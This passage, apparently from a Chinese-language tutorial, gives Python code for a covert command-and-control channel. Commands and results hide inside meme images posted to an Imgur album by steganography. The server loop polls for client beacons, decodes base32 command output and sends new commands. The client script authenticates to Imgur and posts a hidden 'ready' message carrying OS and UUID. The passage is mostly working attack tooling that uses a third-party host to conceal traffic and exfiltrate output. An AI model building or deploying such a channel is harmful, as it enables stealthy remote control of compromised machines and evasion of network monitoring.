 ```py

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."

loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
        else:
            print base64.b32decode(client_dict['response'])

        random.choice(client.default_memes()).link
        last_message_datetime = send_command_message(client_dict['uuid'],
        client_dict['os'],
        random.choice(client.default_memes()).link)
```

以下是我们客户的脚本：

```py
from imgurpython import ImgurClient
import StegoText
import ast, os, time, shlex, subprocess, base64, random, sys

def get_input(string):
    try:
        return raw_input(string)
    except:
        return input(string)

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("<YOUR IMGUR USERNAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice(client.default_memes()). link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
```